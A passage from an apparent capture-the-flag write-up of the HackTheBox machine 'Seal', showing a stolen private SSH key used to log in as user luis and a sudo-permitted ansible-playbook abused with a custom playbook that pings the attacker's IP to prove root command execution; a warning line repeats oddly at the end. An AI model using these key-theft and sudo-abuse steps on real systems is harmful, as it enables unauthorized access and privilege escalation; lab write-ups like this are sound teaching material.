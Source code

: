 ```

tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ ls -l
total 12
-rw-r----- 1 tomcat tomcat  563 May  7 06:10 authorized_keys
-rw------- 1 tomcat tomcat 2590 May  7 06:10 id_rsa
-rw-r----- 1 tomcat tomcat  563 May  7 06:10 id_rsa.pub
tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ md5sum authorized_keys id_rsa.pub 
a03275942de46b5d0de68dfa7ef99e2a  authorized_keys
a03275942de46b5d0de68dfa7ef99e2a  id_rsa.pub

```

I’ll copy the private key (`id_rsa`) to my workstation and connect with SSH:

```

oxdf@parrot$ ssh -i ~/keys/seal-luis luis@seal.htb
...[snip]...
luis@seal:~$

```

## Shell as root

### Enumeration

luis can run `ansible-playbook` as root with `sudo`:

```

luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *

```

### Playbook POC

I’ll grab the playbook from `/opt` and use it as a template to make my own.

```
- hosts: localhost
  tasks:
  - name: ping
    shell: ping -c 1 10.10.14.22

```

I’ll start `tcpdump`, and run this:


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'